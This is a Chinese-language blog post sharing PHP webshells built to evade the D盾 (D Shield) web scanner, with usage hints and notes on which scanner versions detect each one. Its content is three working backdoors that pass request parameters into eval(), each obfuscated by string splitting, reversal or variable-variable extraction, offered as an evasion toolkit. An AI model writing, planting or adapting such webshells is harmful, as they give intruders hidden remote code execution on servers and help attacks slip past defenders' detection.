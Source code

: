 ```yaml
---
layout: post
title: PHP WebShell [过D][更新至2019-05-09]
tags: [工具]
comments: true
---
```


日常积累，来源自T00ls论坛、先知社区、朋友分享、应急等.
D盾v2.1.4.9

> post ?1=phpinfo();

```
<?php

function b(){
    $a = $_POST[1];
    return $a;
}

function a(){
  eval(b());
}

a();
```

![201900509_1.php](https://cijian00.github.io/img/shell_share/20190509_1.png)


> /?1=phpinfo();(已失效 - 2.1.4.9)

```
<?php
$m=$_GET['1'];
$a=mb_substr($m,0,1);
$b=mb_substr($m,1,9999);
eval($a.$b);
?>
```

![20190419.php](https://cijian00.github.io/img/shell_share/20190419.png)



> /?jsha=phpinfo(); (已失效 - 2.1.4.8)


```
<?php
function _strint($key){
        return strrev($key);
}
function log1($log){
        lone(_strint(strrev($log)));
}
function lone($key){
        $str = "";
        return eval($str.$key.$str);
}
foreach (array('_COOKIE','_POST','_GET') as $_request)
{
    foreach ($$_request as $_key=>$_value)
    {
        $$_key=  $_value;
    }
}
$id = isset($jsha) ? $id : 2;
log1($jsha);
?>
```


![jsha.php](https://cijian00.github.io/img/shell_share/jsha-php.png)
